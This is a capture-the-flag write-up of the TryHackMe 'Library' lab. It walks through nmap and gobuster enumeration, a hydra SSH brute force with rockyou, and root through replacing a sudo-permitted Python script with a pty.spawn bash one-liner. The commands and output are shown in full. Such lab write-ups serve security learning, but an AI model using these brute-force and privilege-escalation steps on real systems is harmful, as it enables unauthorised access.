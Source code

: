 ```yaml
---
published: true
---
```

![Desktop View](/assets/img/sample/Library/5.png)

Hello guys, This is the next easy machine from [Tryhackme](https://tryhackme.com/), Name is [Library](https://tryhackme.com/room/bsidesgtlibrary)

# [](#header-2)Nmap Scan

```
# Nmap 7.80 scan initiated Mon Jun 29 03:11:14 2020 as: nmap -sC -sV -oN nmap 10.10.147.65
Nmap scan report for 10.10.196.76
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 29 03:11:44 2020 -- 1 IP address (1 host up) scanned in 30.94 seconds

```

Only port 22 and port 80 ,Let's go into browser 

# [](#header-2)Web 

![Desktop View](/assets/img/sample/Library/1.png)

# [](#header-2)Directory Scan

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# gobuster dir -u http://10.10.147.65 -w /opt/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.147.65
[+] Threads:        10
[+] Wordlist:       /opt/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/29 03:40:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.html (Status: 200)
[ERROR] 2020/06/29 03:42:28 [!] Get http://10.10.147.65/pop: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/29 03:43:37 Finished
===============================================================
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

I checked in `robots.txt`

![Desktop View](/assets/img/sample/Library/2.png)

So may be `rockyou` is the hint for us , after some enumerating in website

I found the author name is `meliodas`

![Desktop View](/assets/img/sample/Library/3.png)

So I start cracked ssh password with `rockyou.txt`

CMD: `hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh`

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-29 03:16:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.147.65:22/
[STATUS] 105.00 tries/min, 105 tries in 00:01h, 14344298 to do in 2276:53h, 16 active
[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-29 03:18:36
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

`[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1`

After some times , I got ssh's password `i*******1`. Let's dig in :)

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# ssh meliodas@10.10.147.65
The authenticity of host '10.10.147.65 (10.10.147.65)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.147.65' (ECDSA) to the list of known hosts.
meliodas@10.10.147.65's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ 
```

```
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
6d488********************35f4ec
meliodas@ubuntu:~$
```

Now we got user flag :). Type `sudo -l`

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$
```

You will see bak.py can run as root, let's check it

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ 
```
Codes are not intersting too much, let's run it

```
meliodas@ubuntu:~$ sudo python bak.py 
[sudo] password for meliodas: 
Sorry, user meliodas is not allowed to execute '/usr/bin/python bak.py' as root on ubuntu.
meliodas@ubuntu:~$
```

It's said meliodas not allowed to execute as root, But you can execute like this

`sudo python /home/meliodas/bak.py`

```
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
meliodas@ubuntu:~$
```
So I removed this file and create a new file with the same name like this

`echo 'import pty;pty.spawn("/bin/bash")' > bak.py`

And then run it again 

```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? yes
meliodas@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
root@ubuntu:~# ls
bak.py  user.txt
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt
e8c8*******************0488c617
root@ubuntu:/root#
```

Now we got root flag  and owned machine :) 

thanks for reading 

![Desktop View](/assets/img/sample/Library/4.png)

[Enjoy :)]()

<script src="https://tryhackme.com/badge/97569"></script>
